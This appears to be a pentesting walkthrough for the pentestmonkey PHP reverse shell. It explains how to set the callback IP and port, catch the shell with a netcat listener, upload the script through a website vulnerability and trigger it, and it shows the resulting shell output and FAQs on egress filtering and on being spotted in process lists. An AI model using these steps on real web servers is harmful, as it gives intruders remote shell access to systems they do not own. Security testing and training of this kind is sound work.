 Walk Through
Modify the source

To prevent someone else from abusing your backdoor – a nightmare scenario while pentesting – you need to modify the source code to indicate where you want the reverse shell thrown back to.  Edit the following lines of php-reverse-shell.php:

~~~
$ip = '127.0.0.1';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
~~~

Get Ready to catch the reverse shell

Start a TCP listener on a host and port that will be accessible by the web server.  Use the same port here as you specified in the script (1234 in this example):
~~`
$ nc -v -n -l -p 1234
~~~
Upload and Run the script

Using whatever vulnerability you’ve discovered in the website, upload php-reverse-shell.php.  Run the script simply by browsing to the newly uploaded file in your web browser (NB: You won’t see any output on the web page, it’ll just hang if successful):

~~~
http://somesite/php-reverse-shell.php
~~~

Enjoy your new shell

If all went well, the web server should have thrown back a shell to your netcat listener.  Some useful commans such as w, uname -a, id and pwd are run automatically for you:
~~~
$ nc -v -n -l -p 1234
listening on [any] 1234 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 58012
Linux somehost 2.6.19-gentoo-r5 #1 SMP PREEMPT Sun Apr 1 16:49:38 BST 2007 x86_64 AMD Athlon(tm) 64 X2 Dual Core Processor 4200+ AuthenticAMD GNU/Linux
 16:59:28 up 39 days, 19:54,  2 users,  load average: 0.18, 0.13, 0.10
USER     TTY        LOGIN@   IDLE   JCPU   PCPU WHAT
root   :0        19May07 ?xdm?   5:10m  0.01s /bin/sh
uid=81(apache) gid=81(apache) groups=81(apache)
sh: no job control in this shell
sh-3.2$
~~~

FAQs
When is this useful?

Perhaps the only areas on disk that you have write access to are mounted with the “noexec” option.  Uploading a compiled program will be of no use in these situations.  You need to use an installed scripting language like Python, PERL, PHP, etc.
Perhaps you just can’t be bothered to upload a second program.
Isn’t the shell connection just going to be severed when the web server times out the PHP script?

No.  It doesn’t seem to on the systems that I’ve tested it on (Gentoo Linux only so far).  Additionally the PHP script attempts to daemonise itself and dissociate from the parent process to avoid this (though it rarely works in practise).  Your browser will appear to hang when you access the reverse shell.  This is normal.  It’s OK to hit cancel in your browser once you’ve got your shell.
Isn’t there going to be a rather suspicious looking shell process when the admin runs “ps”?

Yeah.  This version of the reverse shell isn’t very subtle:
~~~
apache   28106  0.0  0.0  10428  1216 ?        S    17:15   0:00 sh -c uname -a; w; id; /bin/sh -i
apache   28110  0.0  0.0  10172  1428 ?        S    17:15   0:00 /bin/sh -i
~~~

Caveats

Outbound firewalling (aka egress filtering) may prevent your reverse shell connection reaching you.  Pick a port that’s allowed through Firewall.  If there are none, you’ll have to make do with a form-based PHP shell.

This particular implementation of the reverse shell is unix-based.  You’ll need to modify it before it will work on windows.

I’ve noticed a couple of zombie processes while testing this shell.  It doesn’t always happen, but is probably to be expected since we’re not daemonising ourself properly.

---
ref
http://pentestmonkey.net/tools/web-shells/php-reverse-shell
